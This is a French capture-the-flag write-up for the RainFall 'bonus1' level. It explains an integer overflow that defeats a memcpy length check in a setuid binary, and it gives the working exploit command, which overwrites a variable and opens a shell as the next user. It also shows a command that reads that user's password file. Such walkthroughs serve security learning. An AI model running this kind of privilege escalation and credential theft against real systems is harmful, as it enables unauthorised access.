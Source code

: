 ## Comportement
- J'ai des droits `bonus1` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1*`
- En exécutant le binaire (`./bonus1`), on observe qu'il attend 1 argument de la part de l'utilisateur et puis quitte. Sans argument il segfault.
    ```shell
        bonus1@RainFall:~$ ./bonus1 
        Segmentation fault (core dumped)
        bonus1@RainFall:~$ ./bonus1 test
        bonus1@RainFall:~$ ./bonus1 test test
    ```


## Analyse
- Le programme présente une vulnérabilité de type buffer overflow au niveau de l'appel à `memcpy()`. 
- On voit l'ouverture d'un nouveau shell via l'appel a `execl()` : donc pas besoin de shellcode.
- 2 checks sont realises : 
    - Pour accéder à `memcpy()`, `nb` doit être inférieur ou égal à 9.
    - Ensuite, `nb` est comparé à `0x574f4c46` (== 1464814662)
- Il faut donc changer la valeur de `nb` (par `0x574f4c46`) en debordant du `memcpy()`. L'emplacements memoires de `str` et `nb` sont contingent, donc en écrivant suffisamment loin dans `str` on pourrait écrire sur `nb` (40 caractères pour str et 4 autres pour écrire sur nb == 44 caracteres). Le souci est que `memcpy()` ne copiera que 4 * nb octets de argv[2], donc 36 est le maximum qui peut être copié dans le tampon (9 * 4 = 36). 
- Nous pouvons fournir à `memcpy()` un nb négatif : La valeur de nb est stockée dans un `DWORD` (32 bits), la valeur minimale d'un entier signé de 32 bits est `-2147483647`. La multiplication par 4, en raison de la manière dont les entiers signés sont représentés en binaire, nous donne techniquement 4. Nous pouvons manipuler cela pour exploiter la vulnérabilité. En ajustant les 32 premiers bits de int_min * 4 pour obtenir 44 (0b101100), nous pouvons trouver le bon nombre décimal à fournir. 
    ```shell
        random_int   = 1111 1111 1111 1111 1111 1111 1111 1110 | 0000 0000 0000 0000 0000 0000 0010 1100 = 44 (-8589934548)
        random_int/4 = -2147483637
    ```


## Résolution
- Notre premier argument est `-2147483637`, qui est inférieur à 9 et nous donnera 44 lorsqu'il est multiplié par 4. Pour le second argument, nous devons remplir le tampon avec les 40 premiers octets (padding). Les 4 derniers octets effaceront ensuite la valeur de nb et la remplaceront par `0x574f4c46`.
- On craft notre payload: 
    ```shell
        bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "B" * 40 + "\x46\x4c\x4f\x57"')
        $ whoami
        bonus2
        $ cat /home/user/bonus2/.pass
    ```
- Il ne reste plus qu'à passer au bonus2 (`su bonus2`) en renseignant le password.

